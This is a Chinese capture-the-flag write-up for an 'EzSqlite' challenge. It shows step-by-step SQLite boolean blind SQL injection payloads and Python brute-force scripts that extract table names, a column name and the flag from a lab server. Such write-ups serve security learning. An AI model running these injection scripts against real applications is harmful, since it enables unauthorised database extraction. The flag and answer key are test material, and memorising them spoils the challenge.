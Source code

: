 ## EzSqlite

`tjctf{c1fc5932-2b06-45ed-b8f2-1eaaa226939b}`



Sqlite 布尔盲注

在查询的后面几个结果里也放了提示了（bool injection，sqlite）。

页面上有两个请求参数 `id` 和 `username`，测试发现 POST 参数为 `id=id` 时查询有结果。因此可以通过检查 `id=id and 条件;` 是否有结果来测试`条件`是否为真。

### 1. 猜解表数量

```sql
id=id and 2=(select count(tbl_name) from sqlite_master where type="table")
```

得出数据库中有两张表。

### 2. 猜解表名长度

```sql
id=id and 3=(select length(tbl_name) from sqlite_master where type="table")
```

可以知道其中一张表的长度为3

```sql
id=id and 9=(select length(tbl_name) from sqlite_master where type="table" and length(tbl_name)<>3)
```

可以知道另一张表的长度为9。

### 3. 猜解表名

猜长度为3的表的名字：

```python
def decode(a):
    for i in range(len(a)//2):
        hex = '0x' + a[2*i:2*i+2]
        i = int(hex, 16)
        ch = chr(i)
        print(ch, end='')

hex_a = ''
for i in range(1, 7):
    for ch in string.hexdigits:
        res = requests.post("http://10.10.175.100:38081/",
                            data={'id': f'id and "{ch}"=(select substr(hex(tbl_name),{i},1) from sqlite_master where type="table" and length(tbl_name)=3);'})
        if 'meow' in res.text[-80:]:
            hex_a += ch
            break

print(decode(hex_a))
```

得到结果`ctf`，

猜长度为9的表的名字：

```python
hex_a = ''
for i in range(1, 19):
    for ch in string.hexdigits:
        res = requests.post("http://10.10.175.100:38081/",
                            data={'id': f'id and "{ch}"=(select substr(hex(tbl_name),{i},1) from sqlite_master where type="table" and length(tbl_name)=9);'})
        if 'meow' in res.text[-80:]:
            hex_a += ch
            break

print(decode(hex_a))
```

得到结果：`ffffflagg`。

### 4. 猜解`ffffflagg`表的列名

```python
hex_a = ''
for i in range(1, 121):
    for ch in string.hexdigits:
        res = requests.post("http://10.10.175.100:38081/",
                            data={'id': f'id and "{ch}"=(select substr(hex(sql),{i},1) from sqlite_master where type="table" and length(tbl_name)=9);'})
        if 'meow' in res.text[-80:]:
            hex_a += ch
            break

print(decode(hex_a))
```

得到结果`CREATE TABLE .....`，从中得知`ffffflagg`表只有一列，列名为`ffll4aaa9g`。

### 5. 猜解`ffffflagg`表`ffll4aaa9g`列的值

```python
hex_a = ''
for i in range(1, 120):
    for ch in string.hexdigits:
        res = requests.post("http://10.10.175.100:38081/",
                            data={'id': f'id and "{ch}"=(select substr(hex(ffll4aaa9g),{i},1) from ffffflagg);'})
        if 'meow' in res.text[-80:]:
            hex_a += ch
            break

print(decode(hex_a))
```

得到结果，flag 即为 `tjctf{c1fc5932-2b06-45ed-b8f2-1eaaa226939b}`。

